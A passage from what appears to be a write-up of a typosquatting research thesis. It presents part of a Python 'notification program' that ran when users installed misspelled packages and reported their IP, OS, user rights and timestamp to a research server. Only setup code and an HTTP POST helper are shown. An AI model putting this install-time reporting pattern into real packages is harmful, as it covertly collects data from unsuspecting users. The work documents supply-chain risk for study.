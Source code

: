 #### The Notification Program

Now that we achieved code execution upon installation, it is time to show the program that was executed when the user installed such a typo package. The Python script below collects some non-personal host information and sends it to a University virtual private server that was setup beforehand. An equivalent program was developed for Ruby and NodeJS. I called this program *Notification Program*, because it notifies me whenever a user committed a typo and installed one of my typo packages. The data collected contains the `IP address, the operating system, the user rights` and a `timestamp` of the installation.

    :::python
    #!/usr/bin/env python
    # -*- coding: utf-8 -*-

    """
    Notification program used in the typo squatting
    bachelor thesis for the python package index.

    Created in autumn 2015.

    Copyright by Nikolai Tschacher
    """

    import os
    import ctypes
    import sys
    import platform
    import subprocess

    debug = False

    # we are using Python3
    if sys.version_info[0] == 3:
      import urllib.request
      from urllib.parse import urlencode

      GET = urllib.request.urlopen

      def python3POST(url, data={}, headers=None):
        """
        Returns the response of the POST request as string or
        False if the resource could not be accessed.
        """
        data = urllib.parse.urlencode(data).encode()
        request = urllib.request.Request(url, data)
        try:
          reponse = urllib.request.urlopen(request, timeout=15)
          cs = reponse.headers.get_content_charset()
          if cs:
            return reponse.read().decode(cs)
          else:
            return reponse.read().decode('utf-8')
        except urllib.error.HTTPError as he:
          # try again if some 400 or 500 error was received
          return ''
        except Exception as e:
          # everything else fails
          return False
      POST = python3POST
    # we are using Python2